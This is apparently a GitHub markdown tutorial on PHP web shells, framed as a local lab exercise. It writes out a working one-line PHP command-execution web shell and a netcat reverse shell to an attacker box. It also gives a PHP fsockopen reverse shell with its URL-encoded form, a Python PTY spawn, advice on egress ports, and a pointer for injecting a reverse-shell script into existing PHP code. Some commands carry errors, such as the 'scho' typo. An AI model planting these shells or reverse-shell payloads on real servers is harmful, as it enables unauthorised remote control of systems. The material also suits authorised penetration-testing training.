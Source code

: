 # Web Shells

A web shell is a server-side script that becomes a web interface for remote administration and executing system commands. They can be written in pretty much any langauge, but typically written in PHP, ASP, Perl, Python, and Ruby.

Lets create a simple PHP web shell and test it on an Apache server. First, let's secure our web server to prevent backdooring our own system. 
```bash
# Create a rule that only allows port 80 from local machine. 
iptables -A INPUT -i lo -p tcp --dport 80 -j ACCEPT

# Create a rule that blocks all traffic on port 80
iptables -A INPUT -p tcp --dport 80 -j DROP

# Print active rules to the terminal
iptables -S

# Accept connections from a specific source
iptables -A INPUT -s [source IP] -p tcp --dport 80 -j ACCEPT

# Rules are not persistent so they are flushed on reboot. Can force flush
iptables -F

# Disable PHP functions
vim /etc/php/7.0/apache2/php.ini || /etc/php5/apache2/php.ini

# Edit the disable_functions section and add the following:
=exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source

# Restart the service
service apache2 restart
```

## Create the Web Shell

```bash
touch /var/www/html/webshell.php

# Edit the file, add the following:
<?php scho shell_exec($_GET['cmd']); ?>

# Restart apache
service apache2 start

# Execute the web shell script:
http://127.0.0.1/webshell.php?cmd=[command here]
# E.g.
http://127.0.0.1/webshell.php?cmd=id

# If this is an existing PHP Web Root, you can modify an existing file

# Remove the Web Shell
rm /var/www/html/webshell.php

# Flush IPtables
iptables -F
```

### From Web Shell to Command Line Shell

If we can execute system commands, we can try to initiate a reverse shell:

```bash
http://127.0.0.1/wordpress/?cmd=nc [IP attack box] [port] -e /bin/sh
```

### Common Issues

Compromised hosts rarely have `nc` installed, and a reverse shell command can generate errors with no response. You also need to consider firewalls, permissions, directories, web server settings, SELinux, etc.
### Egress Filtering

Try specifying different ports that are typically allowed outbound (53, 80, 443). Make sure you aren't listening on a port served by other services though. 

### Dependencies

It's important to enumerate the options for your web shell. You can't execute Python on a system that doesn't have it. 
We can execute the following to help verify through the web shell:

```bash
php -v	# PHP version
python -V	# Python version
perl -v	# Perl version
ls /usr/bin	# Directory contents /usr/bin
uname -a	# System information Linux
dir C:\”Program Files”	# Directory contents Windows Program Files folder
systeminfo	# System information Windows
id	# Current user Linux
whoami	# Current user Windows
pwd	# Print working directory
```

### URL Encoding

URLs can only contain characters from US-ASCII - special characters typically need to be encoded, such as ` %&=;+'"` 
For example the following reverse shell if executed through Burp:

```php
php -r '$sock=fsockopen("127.0.0.1",81);exec("/bin/sh -i <&3 >&3 2>&3");'
  # Returns "THe contents of the cmd parameter are broken by the ampersand"
```

So we need to properly URL-encode the command like this:
```php
php%20-r%20%27%24sock%3Dfsockopen%28%22127.0.0.1%22%2C81%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

### Extras

The reverse shell script on the following link can be uploaded and injected in existing PHP code on Linux hosts: http://pentestmonkey.net/tools/web-shells/php-reverse-shell

Try to focus on those things you can get to work. See what files you can read or what other important information you can recover that may help.

Use the following command to spawn a PTY shell with Python:

```
python -c 'import pty; pty.spawn("/bin/bash");'
```

(PTY stands for ‘pseudo-teletype’ which emulates and has the functions of a terminal without actually being one).
